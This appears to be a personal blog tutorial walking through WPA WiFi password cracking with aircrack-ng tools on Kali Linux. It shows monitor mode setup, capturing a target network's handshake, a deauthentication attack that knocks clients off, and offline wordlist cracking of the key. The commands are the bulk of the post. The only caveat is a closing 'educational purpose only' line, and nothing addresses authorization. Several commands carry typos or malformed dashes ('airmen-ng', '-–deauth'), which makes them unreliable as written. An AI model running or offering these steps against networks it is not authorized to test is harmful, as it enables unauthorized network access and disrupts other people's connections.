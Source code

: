 ```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-16T12:22:23Z
slug:  Wifi hacking 101
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
  - wifi-hacking


description:
  step-by-step method to hack WIFI using a network adapter.
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.

![Network Adapter](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-1.jpg)

After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```code
iwconfig
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-2.png)

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to `Monitor Mode`, use the following command.

```code
sudo airmen-ng start wlan0 
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-3.png)

Again, use the command mentioned below to verify the monitor mode.

```code
iwconfig
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-4.png)

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

```code
sudo airodump-ng wlan0
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-5.png)

It will display information about nearby **WiFi Networks**. Our intended interface is `Alvish Bhaii`. Then, copy the `BSSID`.

The Following command tells us how many devices are connected tothis Network interface.

```code
sudo airodump-ng wlan0 -d <mac-address>
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-6.png)

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the **death attack**.

```code
sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-7.png)

In this attack, we save the handshake in a `.pcap` file. The next step is the death attack: We open another terminal and type the following command.

```code
sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-8.png)

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

> **What is a four-way handshake?**
A four-way handshake is a message exchange between an access point and the client device.

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-9.png)

Now, you see that it captures the handshake. Type in the ls command to see the file.

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-10.png)

In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

```code
aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-11.png)

**You see that the key is found and cracked Successfully.**

Thank You for reading this blog. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
